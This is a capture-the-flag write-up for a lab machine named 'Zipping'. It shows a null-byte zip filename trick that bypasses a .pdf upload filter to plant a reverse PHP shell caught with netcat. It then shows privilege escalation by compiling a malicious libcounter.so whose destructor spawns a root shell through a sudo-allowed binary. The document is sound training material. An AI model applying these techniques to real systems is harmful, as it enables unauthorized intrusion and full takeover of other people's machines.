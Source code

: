 # Zipping notes

## Recon
```bash
22/tcp open  ssh
80/tcp open  http

/upload.php
```

## File upload

The file upload accepts a `.zip` file. In that zip file it only accepts a single `.pdf` file.
    -> This could be exploited by just renaming files + using null bytes in file names to ignore file restrictions.

Possible solutions:
- `rev.php%00.pdf`
- `rev.phpx00.pdf` -> correct

Solution:
```bash
zip mal.zip "rev.phpX.pdf"
```

Now use `hexedit` on the zip to replace the "X" (x58) in `rev.phpX.pdf` with "00" (x00).

Uploading this zip file with the reverse php shell using a nullbyte string to bypass the `.pdf` restriction works.

(Make sure to setup a netcat listener to catch the shell.)
```bash
nc -lvnp 9001
```

**User: rektsu**

## Getting root

A quick lookup of what processes have root access gives 1 hit:
```bash
sudo -l

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Ok so the binary file `/usr/bin/stock` can be run as root.

### Analyzing the binary

To see how this binary works, use the `strings` command to get an insight.
```bash
strings /usr/bin/stock
```

**Pass: St0ckM4nager**

Now to analyze the binary further, use the `strace` command to follow the binary flow. When prompted for a password, provide the found password as argument and get an interesting return:
```bash
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

Bingo, find a way to craft a `libcounter.so` file so that it gives a root shell.

### Malicious file

Ok after researching what exactly a `.so` file is and how it works. We will have to create a `C` file which then needs to be compiled. Then find a way to execute the `libcounter.so` after the binary is exited. This way we can get a working shell as the root user.

Create the file `exploit.c`:
```C
#include <unistd.h>

void main (void) __attribute__((destructor));

void main (void) {
    system("bash -p");
}
```

Compiling it will create the `libcounter.so` file:
```
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC exploit.c
```

Running the `stock` binary as root will now execute the newly created `libcounter.so`:
```bash
rektsu@zipping:/home/rektsu$ sudo stock

St0ckM4nager

3

whoami
root
```

Voila.

## Remarks

- Bashed my head against the `.pdf` extension requirement -> only the last "rev.phpX.pdf" needs to be edited.
- First time working with **C**, a lot of looking up and trial&error.
